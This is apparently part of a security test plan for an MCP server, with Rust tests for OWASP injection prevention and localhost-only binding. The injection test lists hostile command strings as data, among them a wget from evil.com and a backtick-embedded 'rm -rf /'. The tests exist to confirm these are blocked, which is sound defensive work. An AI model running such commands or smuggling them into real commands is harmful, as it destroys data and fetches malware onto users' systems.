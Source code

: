 ```rust
        assert!(result.is_ok());
    }
}
```

### 6. Compliance Tests

**Purpose**: Validate adherence to security standards and regulations.

**Compliance Test Areas**:

#### 6.1 OWASP Top 10 Validation

```rust
#[cfg(test)]
mod owasp_tests {
    use super::*;

    #[tokio::test]
    async fn test_injection_prevention() {
        // A03:2021 - Injection
        let server = MCPServer::new_test();
        let injection_attempts = vec![
            "cargo build; echo 'pwned' > /tmp/pwned",
            "cargo build || wget evil.com/malware",
            "cargo build `rm -rf /`",
        ];

        for attempt in injection_attempts {
            let result = server.execute_command(attempt).await;
            assert!(matches!(result, Err(SecurityError::InjectionAttempt)));
        }
    }

    #[tokio::test]
    async fn test_authentication_bypass() {
        // A07:2021 - Identification and Authentication Failures
        let server = MCPServer::new_test();

        // Attempt to bypass authentication (not applicable for localhost-only)
        // Instead test localhost binding enforcement
        let result = server.bind_to_external_address("0.0.0.0:8080").await;
        assert!(matches!(result, Err(SecurityError::ExternalBindingBlocked)));
    }

    #[tokio::test]
    async fn test_localhost_only_binding() {
        // Test that server only binds to localhost
        let server = MCPServer::new_test();

        // Should succeed for localhost
        let localhost_result = server.bind_to_address("127.0.0.1:8080").await;
        assert!(localhost_result.is_ok());

        // Should fail for external addresses
        let external_result = server.bind_to_address("0.0.0.0:8080").await;
        assert!(matches!(external_result, Err(SecurityError::ExternalBindingBlocked)));
    }
}
```
